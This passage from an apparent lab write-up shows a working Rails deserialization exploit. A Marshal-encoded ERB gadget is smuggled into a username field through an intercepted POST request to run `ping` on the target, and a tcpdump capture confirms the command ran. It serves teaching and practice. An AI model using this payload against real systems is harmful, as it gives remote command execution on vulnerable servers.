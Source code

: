 ### Deploy

Now I'll head to the change username page on the site. To ensure that
Firefox doesn't encode anything, I'll use Burp to intercept the POST
request and change the username there:



    POST /users/18 HTTP/1.1
    Host: 10.10.10.211:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.211:8080/users/18/edit
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 189
    Connection: close
    Cookie: _session_id=9cad63cc9ba727f097eea89d0897a5c6
    Upgrade-Insecure-Requests: 1

    utf8=%E2%9C%93&_method=patch&authenticity_token=dEbIRH3%2Bo0wlnp9yujf6GjqArxu33QV7eT1RpcmHIZGOnuWpJvYG%2BUFvZOupB87GfoXq9Hm%2B9MP7CVK9bf1FIA%3D%3D&user%5Busername%5D=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%1C%60ping+-c+1+10.10.14.19%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T&commit=Update+User



When I send that on, the page returns a 500 error.

However, if I refresh `/articles`, the page shows the ping results:

![](/img/image-20201108070903903.png)

And I see the ping at `tcpdump` listening on my host:



    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    07:05:54.834195 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1333, seq 1, length 64
    07:05:54.834289 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1333, seq 1, length 64
    07:05:54.850773 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1334, seq 1, length 64
    07:05:54.850862 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1334, seq 1, length 64
    07:05:54.867800 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1335, seq 1, length 64
    07:05:54.867929 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1335, seq 1, length 64
